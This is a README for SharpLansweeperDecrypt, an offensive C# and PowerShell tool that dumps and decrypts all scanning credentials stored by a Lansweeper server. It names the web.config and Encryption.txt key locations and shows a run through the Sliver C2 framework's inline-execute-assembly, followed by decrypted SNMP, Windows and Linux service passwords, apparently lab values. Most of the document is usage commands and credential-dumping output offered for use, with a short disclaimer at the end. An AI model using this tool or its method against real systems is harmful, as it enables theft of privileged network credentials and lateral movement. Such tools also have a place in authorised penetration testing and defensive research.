 # SharpLansweeperDecrypt

`SharpLansweeperDecrypt` is designed to automatically extract and decrypt all configured scanning credentials of a [Lansweeper](https://www.lansweeper.com) instance, provided there is local access to the server.

For manual decryption, the tool is capable of decrypting passwords when supplied with both the encrypted password and the encryption key (`C:\Program Files (x86)\Lansweeper\Key\Encryption.txt`).


1. Automatically identifies and decrypts the database connection strings contained within Lansweeper's `web.config` file.
2. Utilizes the decrypted connection strings to query the Lansweeper SQL database, retrieving all configured `Scanning Credentials`.
3. Locates the `Encryption.txt` file on the disk, which Lansweeper uses for credential encryption.
4. Applies the encryption key to decrypt and display the scanning credentials.

## Usage
```
PS C:\Users\Yeeb\Downloads> .\SharpLansweeperDecrypt.exe -h
╔═╗┬ ┬┌─┐┬─┐┌─┐╦  ┌─┐┌┐┌┌─┐┬ ┬┌─┐┌─┐┌─┐┌─┐┬─┐╔╦╗┌─┐┌─┐┬─┐┬ ┬┌─┐┌┬┐
╚═╗├─┤├─┤├┬┘├─┘║  ├─┤│││└─┐│││├┤ ├┤ ├─┘├┤ ├┬┘ ║║├┤ │  ├┬┘└┬┘├─┘ │
╚═╝┴ ┴┴ ┴┴└─┴  ╩═╝┴ ┴┘└┘└─┘└┴┘└─┘└─┘┴  └─┘┴└─═╩╝└─┘└─┘┴└─ ┴ ┴   ┴

Usage:
  No arguments: Runs the program as is, decrypting web.config and connecting to the SQL database.
  -p <path>: Optional path to the encryption key. If not provided, a default path is used.
  -e <encryptedPassword>: Decrypts the provided encrypted password without decrypting web.config or connecting to the SQL database.
```

### Automatic Decryption

With no arguments specified the tool will try to automaicautomatically dump and decrypt all configured `Scanning Credentials`

```
sliver (maldev) > inline-execute-assembly tool/SharpLansweeperDecrypt.exe -

[*] Successfully executed inline-execute-assembly (coff-loader)
[*] Got output:
[+] Success - Wrote 12298 bytes to memory

╔═╗┬ ┬┌─┐┬─┐┌─┐╦  ┌─┐┌┐┌┌─┐┬ ┬┌─┐┌─┐┌─┐┌─┐┬─┐╔╦╗┌─┐┌─┐┬─┐┬ ┬┌─┐┌┬┐
╚═╗├─┤├─┤├┬┘├─┘║  ├─┤│││└─┐│││├┤ ├┤ ├─┘├┤ ├┬┘ ║║├┤ │  ├┬┘└┬┘├─┘ │
╚═╝┴ ┴┴ ┴┴└─┴  ╩═╝┴ ┴┘└┘└─┘└┴┘└─┘└─┘┴  └─┘┴└─═╩╝└─┘└─┘┴└─ ┴ ┴   ┴

[+] Loading web.config file...
[+] Decrypted connectionStrings section:
Using connectionString: Data Source=(localdb)\.\LSInstance;Initial Catalog=lansweeperdb;Integrated Security=False;User ID=lansweeperuser;Password=InfiniteVoid*GetoSuguru;Connect Timeout=10;Application Name="LsService Core .Net SqlClient Data Provider"
[+] Opening connection to the database...
[+] Retrieving credentials from the database...
[+] Credential decrypted successully
┌───────────────────────────────────────┐
│ Credential: SNMP-Private              │
│ Username:   SNMP Community String     │
│ Password:   private                   │
└───────────────────────────────────────┘
[+] Credential decrypted successully
┌───────────────────────────────────────┐
│ Credential: Global SNMP               │
│ Username:                             │
│ Password:   public                    │
└───────────────────────────────────────┘
[+] Credential decrypted successully
┌───────────────────────────────────────┐
│ Credential: Inventory Windows         │
│ Username:   SWEEP\svc_inventory_win   │
│ Password:   CursedEnergy$Itadori$     │
└───────────────────────────────────────┘
[+] Credential decrypted successully
┌───────────────────────────────────────┐
│ Credential: Inventory Linux           │
│ Username:   svc_inventory_lnx         │
│ Password:   CurseExorcist#Gojo!       │
└───────────────────────────────────────┘
[+] Database connection closed.

[+] inlineExecute-Assembly Finished
```
### Manual Decryption
Sould the `web.config` file be undecryptable or access to the SQL service be unavailable, `SharpLansweeperDecrypt` offers a manual decryption option using the `-e` flag. In cases where the encryption key's path is not explicitly provided with the `-p` flag, the tool defaults to using `C:\Program Files (x86)\Lansweeper\Key\Encryption.txt`.

```PS C:\Users\Yeeb\Downloads> .\SharpLansweeperDecrypt.exe -e 'fuVE63qSVMPbuSnYUdUE+MuRpn8t/PXyLnMUb4gfDew='
╔═╗┬ ┬┌─┐┬─┐┌─┐╦  ┌─┐┌┐┌┌─┐┬ ┬┌─┐┌─┐┌─┐┌─┐┬─┐╔╦╗┌─┐┌─┐┬─┐┬ ┬┌─┐┌┬┐
╚═╗├─┤├─┤├┬┘├─┘║  ├─┤│││└─┐│││├┤ ├┤ ├─┘├┤ ├┬┘ ║║├┤ │  ├┬┘└┬┘├─┘ │
╚═╝┴ ┴┴ ┴┴└─┴  ╩═╝┴ ┴┘└┘└─┘└┴┘└─┘└─┘┴  └─┘┴└─═╩╝└─┘└─┘┴└─ ┴ ┴   ┴

Decrypted Password: ForbiddenTechnique#DomainExpansion
```

### Powershell
In addition to the C# version, this repository also includes a PowerShell script, `LansweeperDecrypt.ps1`, which automates the process of dumping and decrypting Lansweeper credentials. 

## Compilation
Ensure your C# development environment (e.g., .NET SDK, Visual Studio) is set up correctly. The project requires the `System.Configuration.ConfigurationManager`.

```sh
dotnet add package System.Configuration.ConfigurationManager
```

Alternatively, if you're using Visual Studio, you can manage NuGet packages for your project and add `System.Configuration.ConfigurationManager` from there.

## Acknowledgments

Special thanks to the [LansweeperPasswordRecovery](https://github.com/GoSecure/LansweeperPasswordRecovery) repository for providing guidance on how to decrypt Lansweeper Scanning Credentials.

---

*The script is for informational and educational purposes only. The author and contributors of this script are not responsible for any misuse or damage caused by this tool.* <!-- meme -->